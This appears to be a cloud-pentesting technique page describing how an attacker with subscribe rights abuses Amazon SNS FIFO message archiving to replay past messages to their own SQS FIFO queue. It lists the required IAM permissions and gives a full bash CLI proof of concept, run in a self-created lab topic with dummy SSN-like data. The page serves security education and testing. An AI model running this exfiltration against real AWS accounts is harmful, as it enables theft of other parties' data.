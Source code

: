 # SNS FIFO Archive Replay Exfiltration via Attacker SQS FIFO Subscription

Abuse of Amazon SNS FIFO topic message archiving to replay and exfiltrate previously published messages to an attacker-controlled SQS FIFO queue by setting the subscription ReplayPolicy.

- Service: Amazon SNS (FIFO topics) + Amazon SQS (FIFO queues)
- Requirements: Topic must have ArchivePolicy enabled (message archiving). Attacker can Subscribe to the topic and set attributes on their subscription. Attacker controls an SQS FIFO queue and allows the topic to send messages.
- Impact: Historical messages (published before the subscription) can be delivered to the attacker endpoint. Replayed deliveries are flagged with Replayed=true in the SNS envelope.

## Preconditions
- SNS FIFO topic with archiving enabled: `ArchivePolicy` (e.g., `{ "MessageRetentionPeriod": "2" }` for 2 days).
- Attacker has permissions to:
  - `sns:Subscribe` on the target topic.
  - `sns:SetSubscriptionAttributes` on the created subscription.
- Attacker has an SQS FIFO queue and can attach a queue policy allowing `sns:SendMessage` from the topic ARN.

## Minimum IAM permissions
- On topic: `sns:Subscribe`.
- On subscription: `sns:SetSubscriptionAttributes`.
- On queue: `sqs:SetQueueAttributes` for policy, and queue policy permitting `sns:SendMessage` from the topic ARN.

## Attack: Replay archived messages to attacker SQS FIFO
The attacker subscribes their SQS FIFO queue to the victim SNS FIFO topic, then sets the `ReplayPolicy` to a timestamp in the past (within the archive retention window). SNS immediately replays matching archived messages to the new subscription and marks them with `Replayed=true`.

Notes:
- The timestamp used in `ReplayPolicy` must be >= the topic's `BeginningArchiveTime`. If it's earlier, the API returns `Invalid StartingPoint value`.
- For SNS FIFO `Publish`, you must specify a `MessageGroupId` (and either dedup ID or enable `ContentBasedDeduplication`).

<details>
**End\-to\-end CLI POC (us\-east\-1\)**

```bash
REGION=us-east-1
# Compute a starting point; adjust later to >= BeginningArchiveTime if needed
TS_START=$(python3 - << 'PY'
from datetime import datetime, timezone, timedelta
print((datetime.now(timezone.utc) - timedelta(minutes=15)).strftime('%Y-%m-%dT%H:%M:%SZ'))
PY
)

# 1) Create SNS FIFO topic with archiving (2-day retention)
TOPIC_NAME=htreplay$(date +%s).fifo
TOPIC_ARN=$(aws sns create-topic --region "$REGION" \
  --cli-input-json '{"Name":"'"$TOPIC_NAME"'","Attributes":{"FifoTopic":"true","ContentBasedDeduplication":"true","ArchivePolicy":"{\"MessageRetentionPeriod\":\"2\"}"}}' \
  --query TopicArn --output text)

echo "Topic: $TOPIC_ARN"

# 2) Publish a few messages BEFORE subscribing (FIFO requires MessageGroupId)
for i in $(seq 1 3); do
  aws sns publish --region "$REGION" --topic-arn "$TOPIC_ARN" \
    --message "{\"orderId\":$i,\"secret\":\"ssn-123-45-678$i\"}" \
    --message-group-id g1 >/dev/null
done

# 3) Create attacker SQS FIFO queue and allow only this topic to send
Q_URL=$(aws sqs create-queue --queue-name ht-replay-exfil-q-$(date +%s).fifo \
  --attributes FifoQueue=true --region "$REGION" --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region "$REGION" \
  --attribute-names QueueArn --query Attributes.QueueArn --output text)

cat > /tmp/ht-replay-sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$TOPIC_ARN"}}}]}
JSON
# Use CLI input JSON to avoid quoting issues
aws sqs set-queue-attributes --region "$REGION" --cli-input-json "$(python3 - << 'PY'
import json, os
print(json.dumps({
  'QueueUrl': os.environ['Q_URL'],
  'Attributes': {'Policy': open('/tmp/ht-replay-sqs-policy.json').read()}
}))
PY
)"

# 4) Subscribe the queue to the topic
SUB_ARN=$(aws sns subscribe --region "$REGION" --topic-arn "$TOPIC_ARN" \
  --protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)

echo "Subscription: $SUB_ARN"

# 5) Ensure StartingPoint is >= BeginningArchiveTime
BEGIN=$(aws sns get-topic-attributes --region "$REGION" --topic-arn "$TOPIC_ARN" --query Attributes.BeginningArchiveTime --output text)
START=${TS_START}
if [ -n "$BEGIN" ]; then START="$BEGIN"; fi

aws sns set-subscription-attributes --region "$REGION" --subscription-arn "$SUB_ARN" \
  --attribute-name ReplayPolicy \
  --attribute-value "{\"PointType\":\"Timestamp\",\"StartingPoint\":\"$START\"}"

# 6) Receive replayed messages (note Replayed=true in the SNS envelope)
aws sqs receive-message --queue-url "$Q_URL" --region "$REGION" \
  --max-number-of-messages 10 --wait-time-seconds 10 \
  --message-attribute-names All --attribute-names All
```

</details>

## Impact
**Potential Impact**: An attacker who can subscribe to an SNS FIFO topic with archiving enabled and set `ReplayPolicy` on their subscription can immediately replay and exfiltrate historical messages published to that topic, not only messages sent after the subscription was created. Delivered messages include a `Replayed=true` flag in the SNS envelope.

